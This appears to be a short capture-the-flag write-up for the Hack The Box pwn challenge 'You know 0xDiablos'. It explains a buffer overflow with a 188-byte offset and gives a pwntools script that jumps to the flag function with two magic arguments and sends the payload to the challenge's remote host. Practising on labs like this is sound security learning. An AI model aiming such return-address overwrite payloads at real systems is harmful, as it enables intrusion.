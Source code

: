 ```yaml
---
title: "You know 0xDiablos"
date: 2024-05-25 14:26:38 +0700
categories: [hackthebox]
tags: [hackthebox, pwn, challenge]
authors: [toan]
toc: true
---
```

## Introduction
I missed my flag. [link challenge](https://app.hackthebox.com/challenges/106)
## Exploit
Vuln -> buffer overflow. Using gef tools -> offset eip: 188, 2 cmp instructions get 2 arg (flag func, you can disassamble to see more details).
```python
## code exploit
from pwn import *
flag = 0x080491e2 ## addr to flag function
ar1, ar2 = 0xdeadbeef, 0xc0ded00d ## compare value with argument 1, 2
payload = b'a'*188 + p32(flag) + b'a' * 4 + p32(ar1) + p32(ar2)
host, port = '94.237.54.176', 49635 # change it

rmt = remote(host, port)
rmt.sendline(payload)
r = rmt.recv()
print(r)
rmt.close()
```
`run and get flag`